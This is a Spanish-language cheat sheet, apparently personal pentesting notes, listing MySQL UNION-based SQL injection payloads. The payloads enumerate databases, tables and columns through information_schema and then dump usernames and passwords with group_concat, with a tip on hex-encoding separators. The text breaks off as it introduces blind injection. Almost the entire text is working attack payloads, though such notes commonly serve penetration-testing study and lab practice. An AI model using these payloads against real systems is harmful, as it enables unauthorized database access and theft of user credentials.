 Para saber las bases de datos (DB) existentes.
```bash 
❯ ' union select schema_name from information_schema.schemata-- -                    # Nos muestra todas las bases de datos existentes  
❯ ' union select schema_name from information_schema.schemata limit 0,1-- -          # Nos muestra todas las bases de datos existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
❯ ' union select group_concat(schema_name) from information_schema.schemata-- -      # Nos muestra todas las bases de datos existentes, pero separadas por comas
```

Para saber las tablas de la base de datos (DB) especifica.
```bash
❯ ' union select table_name from information_schema.tables where table_schema='❮DB_Name❯'-- -                    # Nos muestra las tablas existentes
❯ ' union select group_concat(table_name) from information_schema.tables where table_schema='❮DB_Name❯'-- -      # Nos muestra las tablas existentes, pero separadas por comas
❯ ' union select table_name from information_schema.tables limit 0,1-- -                                         # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
```

Para saber las columnas de la tabla que encontramos y la base de datos  (DB) especifica.
```bash 
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -                    # Nos muestra las tablas existentes
❯ ' union select column_name from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯' limit 0,1-- -          # Nos muestra las tablas existentes, pero limita a 1 resultado, el que varia es el 0 a 1,2,3, etc...
❯ ' union select group_concat(column_name) from information_schema.columns where table_schema='❮DB_Name❯' and table_name='❮Table_Name❯'-- -      # Nos muestra las tablas existentes, pero separadas por comas
```

Para que nos muestre los datos de las columnas.
```bash
❯ ' union select group_concat(username) from ❮DB_Name❯.❮Table_Name❯-- -          # Especificamos la DB y la tabla, si la DB no es la que esta en uso y nos muestra los datos
❯ ' union select group_concat(username) from ❮Table_Name❯-- -                    # Para que nos muestre los datos, aqui asumimos que la base de datos es la que esta en uso 
❯ ' union select group_concat(username,':',password) from ❮Table_Name❯-- -       # Para que nos muestre los datos de los usuarios y su passwd separados por : 
❯ ' union select group_concat(username,0x3a,password) from ❮Table_Name❯-- -      # Para que nos muestre los datos de los usuarios y su passwd separados por :

	 # Debemos de colocar los caracteres en Hexadecimal para evitar fallos
	 # : = 0x3a (Hex) 
```


### Inyecciones sin ver el error en el Output 'Blind'

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)
Cuando estas en una web a ciegas, tenemos dos formas de hacerlo, por **Tiempo** o **Condiciones**
